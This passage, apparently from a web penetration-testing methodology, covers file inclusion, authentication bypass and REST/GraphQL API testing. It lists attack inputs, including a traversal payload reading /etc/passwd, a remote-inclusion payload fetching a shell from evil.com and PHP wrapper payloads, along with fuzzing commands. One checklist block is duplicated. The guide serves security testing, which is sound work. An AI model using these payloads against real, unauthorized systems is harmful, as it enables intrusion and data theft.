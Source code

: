 ### 3.7 Local/Remote File Inclusion (LFI/RFI)
*   **Testing:**
    *   `?file=../../../../etc/passwd`
    *   `?page=http://evil.com/shell.txt`
*   **Automated LFI/RFI:**
    *   **ffuf:** We can use `ffuf` with LFI wordlists to automate discovery.
        ```bash
        # Fuzzing for LFI with a wordlist of common files
        ffuf -w /path/to/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "https://example.com/?page=FUZZ"
        ```
*   **PHP Wrappers for LFI:**
        *   `php://filter/convert.base64-encode/resource=index.php`
        *   `zip://archive.zip#shell.php`

### 3.8 Authentication & Authorization Bypass
*   **Testing:**
    *   Force browsing to admin panels.
    *   Parameter tampering (e.g., `role=user` to `role=admin`).
    *   Test for weak password reset functionality.
*   **Testing:**
    *   Force browsing to admin panels.
    *   Parameter tampering (e.g., `role=user` to `role=admin`).
    *   Test for weak password reset functionality.

### 3.9 API Security Testing (REST & GraphQL)

*   **REST API Testing:**
    *   **Endpoint Discovery with `Kiterunner`:**
        ```bash
        # Installation
        # Download from https://github.com/assetnote/kiterunner/releases

        # Usage
        kr scan https://example.com -w /path/to/wordlist -A=apiroutes-210228
        ```
    *   **Common Vulnerabilities:**
        *   **IDORs on API endpoints:** `api/v1/users/123` -> `api/v1/users/124`
        *   **Mass Assignment:** Add parameters like `"isAdmin":true` to JSON requests.
        *   **Broken Object Level Authorization (BOLA):** Can you access resources of other users?
        *   **Rate Limiting:** Lack of rate limiting on login or OTP endpoints.

*   **GraphQL API Testing:**
    *   **Enable Introspection:** If enabled, it leaks the entire schema.
    *   **Tools:**
        *   **GraphQLmap:**
            ```bash
            # Installation
            git clone https://github.com/swisskyrepo/GraphQLmap.git
